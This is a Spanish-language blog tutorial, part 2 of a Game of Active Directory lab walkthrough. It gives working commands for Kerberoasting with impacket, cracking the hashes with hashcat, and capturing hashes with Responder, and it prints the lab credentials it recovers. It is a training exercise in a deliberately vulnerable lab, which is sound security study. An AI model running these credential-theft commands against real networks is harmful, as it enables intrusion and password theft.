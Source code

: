 ```yaml
---
layout: single
title: Game of Active Directory - Parte 2
excerpt: "En esta segunda parte veremos como seguir obteniendo credenciales con la vulnerabilidad *kerberoasting* y con el *responder*. Además utilizaré sliver c2 framework para obtener la intrusión inicial y elevar privilegios."
date: 2024-03-30
classes: wide
header:
  teaser: /assets/images/Goad/logo_GOAD.jpg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```


[](/assets/images/Goad/logo_GOAD.jpg)

En esta segunda parte veremos como seguir obteniendo credenciales con la vulnerabilidad *kerberoasting* y con el *responder*. Además utilizaré sliver c2 framework para obtener la intrusión inicial y elevar privilegios.


## Kerberoasting

Podemos utilizar impacket para intentar explotar esta vulnerabilidad, que se da cuando algún usuario del dominio tiene asociado un SPN. 

```bash
GetUserSPNs.py -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes
```

![](/assets/images/Goad/kerberoasting.jpg)


Obtenemos 3 hashes que corresponden a los usuarios sansa.stark, jon.snow y sql_svc. Y ahora podemos intentar crackearlos con hashcat.

```bash
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```


![](/assets/images/Goad/hashcat_kerb.jpg)


Ya tenemos otra credencial: `jon.snow:iknownothing`


## Responder

Otra forma de obtener credenciales es utilizar el responder. En el laboratorio, hay dos bots para simular solicitudes LLMRN, MDNS y NBT-NS. Un usuario tiene una contraseña débil pero no tiene derechos de administrador. Otro usuario tiene derechos de administrador pero utiliza una contraseña segura.

```bash
Responder.py -I vboxnet0
```

Unos minutos después de ejecutar el comando obtenemos el hash de robb.stark, y casi enseguida el de eddard.stark.


![](/assets/images/Goad/responder.jpg)


![](/assets/images/Goad/responder2.jpg)


